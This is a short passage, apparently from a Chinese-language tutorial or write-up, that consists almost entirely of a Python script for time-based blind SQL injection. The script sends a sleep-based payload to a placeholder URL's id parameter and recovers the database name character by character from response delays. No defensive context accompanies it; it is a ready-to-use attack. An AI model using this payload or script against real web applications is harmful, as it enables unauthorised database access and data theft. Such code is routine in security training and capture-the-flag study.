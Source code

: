   

代码在之前那个的基础上修改就行了。

  

下面这个是获取database名的代码示例：

  

```python

import requests

import time

  

url = 'http://xxx/?id=1\' and if(ascii(substr((select database()), {0}, 1))={1}, sleep(5), 1)--+'

  

def guess_character(position, ascii_value):

    response = requests.get(url.format(position, ascii_value))

    if response.elapsed.total_seconds() >= 5:

        return chr(ascii_value)

    else:

        return None

  

position = 1

characters = []

  

while True:

    for ascii_value in range(32, 127):

        character = guess_character(position, ascii_value)

        if character is not None:

            characters.append(character)

            position += 1

            print(character)

            break

    else:

        break

  

database_name = ''.join(characters)

print(database_name)
```